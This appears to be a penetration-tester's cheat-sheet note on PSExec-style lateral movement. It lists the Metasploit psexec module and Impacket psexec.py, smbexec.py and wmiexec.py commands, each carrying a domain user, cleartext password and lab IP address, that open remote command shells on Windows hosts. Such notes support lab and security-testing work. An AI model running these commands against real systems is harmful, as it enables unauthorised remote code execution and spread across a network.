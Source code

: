 # PSExec

## MSFConsole

`exploit/windows/smb/psexec`

## PSExec.py

`psexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

## alternatives

### smbexec

`smbexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

### wmiexec

`wmiexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`
